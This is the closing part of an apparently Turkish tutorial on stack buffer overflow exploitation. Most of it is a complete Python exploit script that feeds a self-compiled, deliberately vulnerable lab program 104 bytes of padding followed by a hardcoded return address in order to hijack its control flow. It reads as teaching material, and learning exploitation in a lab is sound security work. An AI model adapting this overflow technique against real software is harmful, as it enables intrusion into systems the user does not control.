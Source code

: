 *Sömürünün Başarılı Olması*

### Sömürü Kodunun Tam Hali

```python
import struct
import subprocess
import sys

# Zafiyetli programın adı
VICTIM_PROGRAM = "./zafiyetli_sunucu"

# 1. Adım'da objdump ile bulduğumuz ve HİÇ DEĞİŞMEYECEK olan statik adres.
# Siz de kendi sisteminizde bulduğunuz adresi buraya yazmalısınız!
HARDCODED_ADDRESS = 0x401166

PADDING_SIZE = 104

def main():
    print("--- [SALDIRGAN] Python Exploit (Statik Adres ile) Baslatildi ---")
    
    try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] HATA: '{VICTIM_PROGRAM}' bulunamadi. C++ kodunu -no-pie ile derlediniz mi?")
        sys.exit(1)
        
    print(f"[*] Hedef adres statik olarak biliniyor: {hex(HARDCODED_ADDRESS)}")
    
    # Payload'ı SABİT adres ile oluştur
    padding = b'A' * PADDING_SIZE
    overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
    payload = padding + overwrite_address
    
    print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
    print("[*] Payload kurban programa gonderiliyor...")
    
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

    print("\n--- Kurban Programdan Gelen Cikti ---")
    print(stdout_output)
    print("--- Kurbandan Gelen Hata Ciktisi (varsa) ---")
    print(stderr_output)
    print("--- Exploit Tamamlandi ---")
    
    if "KONTROL ELE GECIRILDI" in stdout_output:
        print("\n[+] Zafiyet basariyla istismar edildi!")
    else:
        print("\n[-] Istismar basarisiz oldu.")

if __name__ == "__main__":
    main()
```

Okuduğunuz için teşekkür ederim\!



